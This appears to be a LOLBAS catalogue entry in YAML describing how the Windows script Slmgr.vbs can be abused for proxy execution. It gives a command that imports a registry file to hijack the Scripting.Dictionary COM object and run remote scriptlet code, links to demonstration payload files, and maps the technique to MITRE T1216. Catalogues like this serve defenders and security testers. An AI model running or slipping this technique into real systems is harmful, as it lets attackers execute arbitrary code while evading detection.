 ```yaml
---
Name: Slmgr.vbs
Description: Script used to manage windows license activation
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: reg.exe import c:\path\to\Slmgr.reg & cscript.exe /b c:\windows\system32\slmgr.vbs
    Description: Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    MitreLink: https://attack.mitre.org/wiki/Technique/T1216
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\System32\slmgr.vbs
  - Path: C:\Windows\SysWOW64\slmgr.vbs
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Slmgr_calc.sct
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Slmgr.reg
Detection:
  - IOC:
Resources:
  - Link: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - Link: https://www.youtube.com/watch?v=3gz1QmiMhss
Acknowledgement:
  - Person: Matt Nelson
    Handle: "@enigma0x3"
  - Person: Casey Smith
    Handle: "@subtee"
---
```

